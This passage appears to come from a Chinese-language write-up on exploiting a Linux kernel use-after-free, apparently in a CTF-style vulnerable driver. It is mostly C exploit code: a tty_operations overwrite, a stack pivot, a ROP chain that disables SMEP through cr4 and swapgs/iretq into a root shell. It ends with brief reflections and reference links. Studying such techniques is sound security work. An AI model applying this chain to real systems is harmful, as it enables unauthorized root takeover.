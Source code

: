 ```
    // 设置tty_operations为伪造的操作
    puts("[+] Spray complete. Modifying function pointer");
    unsigned long *temp = (unsigned long *)&buf[24];
    *temp = (unsigned long)fake_tty_operations;

    puts("[+] Preparing ROP chain");
    unsigned long lower_address = xchgeaxesp & 0xFFFFFFFF;
    unsigned long base = lower_address & ~0xfff;
    printf("[+] Base address is %lx\n", base);
    if (mmap(base, 0x30000, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0) != base) {
        perror("mmap");
        exit(1);
    }

    unsigned long rop_chain[] = {
        poprdiret,
        0x6f0,
        native_write_cr4, // cr4 = 0x6f0
        (unsigned long)get_root,
        swapgs, // swapgs; pop rbp; ret
        base,   // rbp = base
        iretq,
        (unsigned long)get_shell,
        user_cs,
        user_rflags,
        base + 0x10000,
        user_ss
    };
    memcpy((void*)lower_address, rop_chain, sizeof(rop_chain));
    puts("[+] Writing function pointer to the driver");
    long len = write(fd2, buf, 32);
    if (len < 0) {
        perror("write");
        exit(1);
    }

    puts("[+] Triggering");
    for (i = 0;i < SPRAY_ALLOC_TIMES; i++) {
        ioctl(spray_fd[i], 0, 0); // FFFFFFFF814D8AED call rax
    }
}

int main() {
    exploit();
    return 0;
}
```



### 最后

 内核态和用户态其实也差不多，主要就是对内存机制要非常了解。 `xchg esp, eax` 然后 `mmap` 即可控制 栈数据， 这个技巧确实厉害。使用 `gef` 没法调内核，换了 `pwndbg` 就可以了.
 
 
 
 
 
 
**参考**
 
 http://pwn4.fun/2017/08/15/Linux-Kernel-UAF/
 
 http://bobao.360.cn/learning/detail/4148.html